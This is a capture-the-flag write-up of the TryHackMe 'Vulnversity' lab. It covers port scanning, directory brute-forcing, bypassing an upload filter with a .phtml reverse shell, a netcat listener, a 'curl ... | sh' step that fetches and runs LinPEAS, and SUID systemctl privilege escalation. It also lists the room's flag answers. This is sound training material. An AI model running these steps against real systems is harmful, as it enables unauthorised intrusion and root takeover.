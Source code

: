 # Vulnversity

The link to this room can be found [here](https://tryhackme.com/room/vulnversity).

### Task 1: Deploy The Machine

Machine IP: 10.10.77.241
### Task 2: Reconnaissance

1. Scan this box: `nmap -sV 10.10.77.241`.

   This command will scan the machine with the specified IP using nmap, determining what are the versions of the running services. Questions 2, 3 can be answered by simply analyzing the [scan results](https://github.com/pamhrituc/TryHackMe_Writeups/blob/master/Vulnversity/vulnversity_scan_results.log).

2. Scan the box, how many ports are open?

   > 6

3. What version of the squid proxy is running on the machine?

   > 3.5.12

4. How many ports will nmap scan if the flag -p-400 was used?

   > 400

   According to nmap's manual pages (`man nmap`), the -p- flag is used to scan through ports from 1 to 400.

5. Using the nmap flag -n what will it not resolve?

   > DNS

   Also according to nmap's manual pages, the -n flag can be used to never do DNS resolution.

6. What is the most likely operating system this machine is running?

   > Ubuntu

   The machine's OS can be found by using the -O flag when scanning the machine. So, this command would be used `nmap -O 10.10.77.241`. Or, looking closely at the previous scan results, notice that the version of SSH used is OpenSSH 7.2p2 Ubuntu 4ubuntu2.7.

7. What port is the web server running on?

   > 3333

   In the scan results, notice that the http service is running on port 3333.

8. Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)

   > No answer needed

### Task 3: Locating directories using GoBuster

1. Lets first start of by scanning the website to find any hidden directories. To do this, we're going to use GoBuster.

   GoBuster is a tool used to brute-force URIs (directories and files), DNS subdomains and virtual host names. For this machine, we will focus on using it to brute-force directories.
   Download GoBuster [here](https://github.com/OJ/gobuster), or if you're on Kali Linux 2020.1+ run `sudo apt-get install gobuster`.
   To get started, you will need a wordlist for GoBuster (which will be used to quickly go through the wordlist to identify if there is a public directory available. If you are using Kali Linux you can find many wordlists under /usr/share/wordlists.
   Now lets run GoBuster with a wordlist: `gobuster dir -u http://<ip>:3333 -w <word list location>`

   Since I am using Kali Linux, I simply ran the command `gobuster dir -u http://10.10.77.241:3333 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`. The -u flag is followed by the target URL, the -w flag is followed by the path of the wordlist used. In this case, I used the directory-list-lowercase-2.3-medium.txt file from the /usr/share/wordlists/dirbuster directory.

2. What is the directory that has an upload form page?

   > /internal/

   After leaving GoBuster to scan the website for hidden directories, notice that one of the directories found is named /internal.

![Screenshot of GoBuster](/Vulnversity/screenshots/gobuster.png?raw=true)

### Task 4: Compromise the webserver

After accessing http://10.10.77.241:3333/internal, the browser will display a page containing a file upload form.

![Screenshot of upload form]()

1. Try upload a few file types to the server, what common extension seems to be blocked?

   > php

   To see what extensions the server accepts, we can try uploading files manually or by using Burpsuite.

   Mainly, PHP is of interest to us, because PHP is the most common backend programming language used for web applications. 

2. To identify which extensions are not blocked, we're going to fuzz the upload form.

   > No answer needed.

3. We're going to use Intruder (used for automating customised attacks).
   To begin, make a wordlist with the following extensions in:
   ![Screenshot of word list]()
   Now make sure BurpSuite is configured to intercept all your browser traffic. Upload a file, once this request is captured, send it to the Intruder. Click on "Payloads" and select the "Sniper" attack type.
   Click the "Positions" tab now, find the filename and "Add §" to the extension. It should look like so:
   ![Screenshot of burpsuite]()
   Run this attack, what extension is allowed?

   > phtml

4. Now we know what extension we can use for our payload we can progress.
   We are going to use a PHP reverse shell as our payload. A reverse shell works by being called on the remote host and forcing this host to make a connection to you. So you'll listen for incoming connections, upload and have your shell executed which will beacon out to you to control!
   Download the following reverse PHP shell [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).
   To gain remote access to this machine, follow these steps:
   1. Edit the php-reverse-shell.php file and edit the ip to be your tun0 ip (you can get this by going to http://10.10.10.10 in the browser of your TryHackMe connected device).
   2. Rename this file to php-reverse-shell.phtml
   3. We're now going to listen to incoming connections using netcat. Run the following command: nc -lvnp 1234
   4. Upload your shell and navigate to http://<ip>:3333/internal/uploads/php-reverse-shell.phtml - This will execute your payload
   5. You should see a connection on your netcat session
   ![Screenshot of netcat]()

   > No answer needed

   I simply followed the steps described in this question. The reverse shell is successful.

   ![Screenshot of reverse shell]()

5. What is the name of the user who manages the webserver?

   > bill

   Since I have access to the webserver, I simply check what users can be found in the /home directory.

   ![Screenshot of ls cmd]()

6. What is the user flag?

   > 8bd7992fbe8a6ad22a63361004cfcedb

   The user flag is found in the user.txt file from the /home/bill directory.

   ![Screenshot of flag]()

### Task 5: Priviledge Escalation

1. In Linux, SUID (**set owner userId upon execution**) is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).
   For example, the binary file to change your password has the SUID bit set on it (/usr/bin/passwd). This is because to change your password, it will need to write to the shadowers file that you do not have access to, root does, so it has root privileges to make the right changes.
   ![Screenshot_SUID]()
   On the system, search for all SUID files. What file stands out?

   > /bin/systemctl

   Okay, I'm gonna admit, I needed a little help for this one. So, after some research and reading, I found PEASS - Privilege Escalation Awesome Scripts SUITE, download it [here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite). The script needs to be put on the vulnerable webserver, to perform the enumeration. I started a Python HTTP server on my own machine, using the `python3 -m http.server 80` command and on the webserver, I transfered the file with curl (`curl <my_tun0_ip>/linpeas.sh | sh`).

   ![Screenshot_of_PEASS]()

   As shown in the above screenshot, the RED/YELLOW highlights are objects that can be used for PE. After waiting for PEASS to finish running, we find /bin/systemctl in the Interesting Files section.

   ![Screenshot2_of_PEASS]()


2. Its challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer?
   Become root and get the last flag (/root/root.txt)

   > a58ff8579f0a9270368d33a9966c7fd5

   Now we need to use /bin/systemctl to become root. For this, I used [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/). Here's a screenshot of the explanation.

   ![Screenshot_of_GTFOBins]()

   After running the above commands, replacing id with the command we want to run as root (`cat /root/root.txt`), we start the service. The flag is written to /tmp/output.
